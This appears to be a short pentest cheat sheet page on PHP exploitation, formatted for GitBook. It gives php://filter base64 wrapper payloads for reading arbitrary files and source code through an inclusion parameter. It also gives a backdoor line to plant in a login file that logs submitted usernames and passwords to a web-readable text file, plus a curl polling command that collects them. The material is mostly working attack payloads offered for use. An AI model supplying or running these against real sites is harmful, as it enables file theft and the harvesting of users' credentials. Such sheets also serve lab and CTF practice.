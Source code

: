 ```yaml
---
icon: php
---
```


# PHP Exploitation Techniques

{% hint style="info" %}
### <mark style="color:red;">`Filters & Wrappers`</mark>

{% code title="Exfiltrate files" overflow="wrap" %}
```php
?input_file=php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>
```
{% endcode %}

{% code title="Exfiltrate the source code" %}
```php
php://filter/convert.base64-encode/resource=dashboard
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:red;">`Harvesting Credentials`</mark>

* <mark style="color:purple;">If is possible to write on login files, add this line:</mark>

{% code overflow="wrap" %}
```php
file_put_contents("/var/www/html/dev_wiki/hijack.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND);
```
{% endcode %}

* <mark style="color:purple;">Adapt the directory to your needs, if you need to catch the file asap use this</mark> <mark style="color:orange;">**`curl`**</mark> <mark style="color:purple;">command:</mark>

```sh
watch -n 1 curl -s -X GET http://10.10.10.78/dev_wiki/hijack.txt
```
{% endhint %}

